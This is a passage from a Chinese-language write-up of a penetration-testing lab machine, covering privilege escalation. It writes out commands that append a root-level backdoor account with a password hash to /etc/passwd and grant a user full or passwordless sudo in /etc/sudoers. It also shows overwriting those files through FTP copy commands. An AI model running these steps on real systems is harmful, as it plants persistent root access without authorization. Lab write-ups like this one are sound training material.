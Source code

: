 然后与上面的拼接一下，也就是`root:x`修改，这里的`x`就是表示密码存储在`/etc/shadow`文件中，若不是`x`，则是从这个文件中直接使用了

```shell
cat:$6$r9KLjdk5AsgDfU/k$4JwtAwJUiLll6epxebGXc5xIySOoO1NvolN5z5RLh6CYxqOXwbNroMbtpxKXCUlkhuCtRMCyHpklQMOwYMLnJ.:0:0:root:/root:/bin/bash

#使用echo时，这里一定要用单引号
echo 'cat:$6$r9KLjdk5AsgDfU/k$4JwtAwJUiLll6epxebGXc5xIySOoO1NvolN5z5RLh6CYxqOXwbNroMbtpxKXCUlkhuCtRMCyHpklQMOwYMLnJ.:0:0:root:/root:/bin/bash' >> /etc/passwd
```

![](./pic-joy/38.jpg)



这里甚至可以都试一遍，也就是网站`gtfobins.github.io`中有的，你就试吧，都加上`suid`权限都可，或者去修改`/etc/sudoers`文件，去添加吧

```shell
echo "patrick ALL=(ALL:ALL) ALL" >> /etc/sudoers
```



## 提权方式2

这里因为前面使用`telnet`连接21端口时，尝试使用`cpfr、cpto`时，发现可以覆盖文件，所以这里尝试覆盖一些文件，以达到提权的目的，不过这里因为`ssh`无法连接的原因，所以是建立在从网站获取`shell`后，而且方法也是与前面一致，通过复制对应的文件，然后在`kali`中修改，然后再通过复制进行覆盖原本的文件。

使用`cpfr、cpto`获取`/etc/passwd`或`/etc/sudoers`文件

![](./pic-joy/39.jpg)

然后在`kali`中通过`ftp`协议连接靶机，下载到`kali`，然后修改文件内容，再把文件上传到`ftp`服务器中，在两个文件的后面加上下面的语句即可

```shell
#passwd，这里的密码与前面的cat是一样的
dog:$6$r9KLjdk5AsgDfU/k$4JwtAwJUiLll6epxebGXc5xIySOoO1NvolN5z5RLh6CYxqOXwbNroMbtpxKXCUlkhuCtRMCyHpklQMOwYMLnJ.:0:0:root:/root:/bin/bash

#sudoers
patrick ALL=(ALL:ALL) NOPASSWD: ALL
```
